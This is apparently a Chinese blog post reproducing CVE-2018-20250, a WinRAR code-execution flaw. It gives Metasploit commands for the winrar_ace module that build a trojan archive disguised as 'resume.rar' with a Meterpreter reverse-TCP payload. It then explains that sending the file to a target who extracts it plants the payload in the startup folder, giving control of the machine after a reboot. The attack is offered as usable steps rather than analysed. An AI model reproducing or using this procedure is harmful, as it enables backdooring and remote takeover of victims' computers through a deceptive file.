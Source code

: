 ```yaml
---
title: CVE-2018-20250(WinRAR代码执行)漏洞复现
tags: 
- CVE
- 漏洞
categories:
- 网络安全
top_img: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=500
cover: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=800
date: 2020-03-26 22:09:00
---
```


# 生成winrar木马
```
use exploit/windows/fileformat/winrar_ace

SET FILENAME resume.rar  # 木马文件名称
SET FILE_LIST /home/files.txt # 其他压缩文件目录文件
set PAYLOAD [PAYLOAD]. windows/meterpreter/reverse_tcp by default.  # 设置payload, 默认是windows/meterpreter/reverse_tcp

# 设置payload参数
... 

exploit # 生成木马文件在~/.msf4/local/目录下面.
```

# 利用

生成的压缩文件发送给目标, 目标解压rar文件,rar文件会将payload放在启动目录里面, 目标重启机器之后即可进行控制

